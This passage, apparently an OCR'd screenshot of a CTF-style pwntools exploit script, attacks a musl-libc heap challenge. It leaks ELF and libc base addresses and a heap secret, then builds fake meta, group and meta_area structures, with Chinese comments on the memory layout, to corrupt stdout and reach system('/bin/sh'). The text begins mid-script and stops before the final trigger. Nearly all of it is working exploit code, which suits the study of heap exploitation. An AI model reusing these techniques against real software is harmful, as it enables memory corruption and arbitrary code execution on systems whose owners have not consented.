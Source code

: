     #print("leak_elf:"+hex(int(leak_elf[14:16]+leak_elf[12:14]+leak_elf[10:12]+leak_elf[8:10]+leak_elf[6:8]+leak_elf[4:6]+leak_elf[2:4]+leak_elf[0:2],16)))
    leak_libc = io.recv(16)
    libc.address = int(leak_libc[14:16]+leak_libc[12:14]+leak_libc[10:12]+leak_libc[8:10]+leak_libc[6:8]+leak_libc[4:6]+leak_libc[2:4]+leak_libc[0:2],16)-0xb3fb0
    #print("leak_libc:"+hex(int(leak_libc[14:16]+leak_libc[12:14]+leak_libc[10:12]+leak_libc[8:10]+leak_libc[6:8]+leak_libc[4:6]+leak_libc[2:4]+leak_libc[0:2],16)))
    mmap_base = libc.address-0x4000
    ctx = libc.address + 0xb0aa0 ## how to find malloc_context ? use libc.so->malloc and find ctx.seq ctx = ctx.seq-0x390
    fake_meta_addr = mmap_base + 0x2010
    fake_mem_addr = mmap_base + 0x2040
    system = libc.sym['system']
    bin_sh = next(libc.search(b"/bin/sh\x00"))
    stout = libc.address+0xB02E0

    print("elf_base:"+hex(elf_base))
    print("libc_base:"+hex(libc.address))
    print("mmap_base:"+hex(mmap_base)) 

    for i in range(5):
        find(b'3'*0x28,0x28)

    payload = p64(elf_base+0x4c40)+p64(ctx)+p64(len(b'vulnerabl'))+p64(0x28)+p64(0)
    find(payload,0x28)
    find(b'vulnerabl',len('vulnerabl'))
    io.recvuntil(":")
    secret=io.recv(16)
    secret=int(secret[14:16]+secret[12:14]+secret[10:12]+secret[8:10]+secret[6:8]+secret[4:6]+secret[2:4]+secret[0:2],16)
    print("secret:"+hex(secret))
    #gdb.attach(io)
    add(b'big_map',len(b'big_map'),b'a'*0x1200,0x1200)

    ## dequeue
    ## fake meta
    last_idx, freeable, sc, maplen = 0, 1, 8, 1
    #fake meta
    fake_meta = p64(stout - 0x18)                  # prev
    fake_meta += p64(fake_meta_addr + 0x30)         # next
    fake_meta += p64(fake_mem_addr)                 # mem
    fake_meta += p32(0) + p32(0)                    # avail_mask, freed_mask
    fake_meta += p64((maplen << 12) | (sc << 6) | (freeable << 5) | last_idx) 
    fake_meta += p64(0)
    #fake group
    fake_mem = p64(fake_meta_addr)                  # meta 
    fake_mem += p32(1) + p32(0)                     
    #前一个p32为active idx(实际只有5bit)+pad  
    #后一个p32为第一个chunk的idx，此处由于应为第一个chunk，
    #所以实际应为p32(0x8000)，参见上图，不过用p32(0)结果是一样的
    payload = b'a' * 0xaa0
    #fake meta area
    payload += p64(secret) + p64(0)
    payload += fake_meta + fake_mem + b'\n'
    '''
    实际内存布局：
    0x1200 chunk 头：a*0xaa0
    0x xxx000 fake meta area 
    0x xxx010 fake meta
    0x xxx040 fake group
    '''
    find(payload,0x1200)
    #通过把fake meta、fake group、fake meta_area布置在一个页（0x1000内）来确保对齐

